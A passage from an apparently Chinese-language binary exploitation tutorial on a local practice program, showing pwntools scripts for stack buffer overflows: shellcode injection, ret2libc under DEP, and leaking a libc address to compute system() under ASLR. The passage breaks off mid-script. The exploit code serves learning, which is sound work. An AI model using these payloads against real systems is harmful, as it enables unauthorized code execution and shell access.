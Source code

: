 ```python
# 这里溢出长度为140，具体可以利用pattern.py来确定溢出长度
payload = shellcode + 'A' * (140 - len(shellcode)) + p32(ret)
p.send(payload)  #发送payload
p.interactive()  #开启交互shell
```
# 4. 开启DEP
## 4.1. ret2libc
通过GDB加载了程序之后，在主函数下断，断下后利用print和find指令找到`system()`函数（`print system`）和`/bin/sh`字符串（可以从`__libc_start_main`函数地址开始找，`find 0xb7e393f0, +2200000, "/bin/sh"`，这里0xb7e393f0是通过print指令确定的`__libc_start_main`函数的 地址，2200000为寻找范围，找到后可以通过`x/s 0xb7f81ff8`来验证）的地址，由于未开启ASLR，该地址不变，然后通过执行`system("/bin/sh")`来获取shell。
## 4.2. EXP
```python
from pwn import *
p = process('./level2')
ret = 0xdeadbeef
systemaddr=0xb7e5f460
binshaddr=0xb7f81ff8
payload =  'A'*140 + p32(systemaddr) + p32(ret) + p32(binshaddr)
p.send(payload)
p.interactive()
```
# 5. 开启ASLR+DEP（关闭PIE）
## 5.1. 通过偏移定位
先获取到libc.so中某些函数的内存地址，然后通过so文件（使用ldd命令可以查看目标程序调用的so库在哪里）和偏移计算出`system`函数和`/bin/sh`字符串在内存中的地址。之后将程序返回到漏洞函数，再次进行溢出，通过`system`函数和`/bin/sh`字符串劫持程序流。
## 5.2. 获取libc.so中某些函数的内存地址
我们可以通过objdump获取到libc.so中某些函数在plt表和got表中的地址，由于程序本身在内存中的地址固定（未启用PIE时），所以plt表和got表的静态地址等于内存地址。可以利用`write`函数把`write`函数在内存中的地址打印出来。
## 5.3. EXP
```python
# encoding:utf-8
from pwn import *
# 读取两个文件
libc = ELF('libc.so')
elf = ELF('level2')
p = process('./level2')
# 获取plt和got地址
plt_write = elf.symbols['write']
print 'plt_write= ' + hex(plt_write)
got_write = elf.got['write']
print 'got_write= ' + hex(got_write)
# 通过GDB获取漏洞函数地址
vulfun_addr = 0x8049172
print 'vulfun= ' + hex(vulfun_addr)
# 第一次溢出，获取write函数地址
payload1 = 'A' * 140 + p32(plt_write) + p32(vulfun_addr) + p32(1) + p32(got_write) + p32(4)
print "\n###sending payload1 ...###"
p.send(payload1)
print "\n###receving write() addr...###"
write_addr = u32(p.recv(4))
print 'write_addr=' + hex(write_addr)
# 计算偏移
print "\n###calculating system() addr and \"/bin/sh\" addr...###"
system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
print 'system_addr= ' + hex(system_addr)
```